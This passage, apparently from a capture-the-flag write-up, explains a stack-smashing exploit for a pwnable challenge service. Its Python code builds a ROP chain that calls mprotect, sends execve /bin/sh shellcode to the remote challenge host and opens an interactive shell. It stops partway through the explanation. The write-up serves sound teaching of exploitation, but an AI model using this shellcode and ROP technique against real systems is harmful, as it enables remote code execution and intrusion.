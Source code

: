 ```python

# payload length must be 125, because after read, the next
# syscall is mprotect; eax = 125
payload += "A"*(125-len(payload))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#s.connect(("localhost",28099))
s.connect(("pwnable.katsudon.org",28099))

s.send(payload)

# http://www.shell-storm.org/shellcode/files/shellcode-851.php
s.send("\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68")

# the shell should have been spawned, so interact with it
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

This first bit of python sets up the exploit. I have a helper function called `p(x)` that can dump addresses in the correct endianness into the payload. First, the payload consists of 16 bytes to smash the stack. Then, the ROP chain starts. Finally, I made sure that the first payload is 125 bytes, so that `eax` will contain the correct syscall number for mprotect. This first important part of the ROP chain looks like this:

```python
payload += p(SYSCALL)   # I rely on the return value of the read syscall
payload += p(ADDESP)    # fix stack with add esp, 10; ret
payload += p(0x8048000) # address to modify
payload += p(0x1000)    # length (page-aligned!)
payload += p(0x7)       # PROT_READ|PROT_WRITE|PROT_EXEC
payload += "AAAA"       # dummy value
```

This will call `syscall(0x8048000, 0x1000, 0x7)` with `eax` set to 125. This makes the memory area at 0x8048000 writeable! Next, I need to read in the shellcode, but for that `eax` must be 3. I first reset `ebx`:

```python
# reset ebx so we can set eax using the next gadget
payload += p(SYSCALL)
payload += p(ADDESP)
payload += p(0)         # set ebx = 0
payload += p(0x1000)    # don't care
payload += p(0x7)       # don't care
payload += "AAAA"       # dummy
```

Whatever this syscall is (I don't know the value of `eax` after the mprotect call, nor do I care), it fails but the side-effect is that `ebx` is now 0. That sets us up for moving the correct number in `eax`:
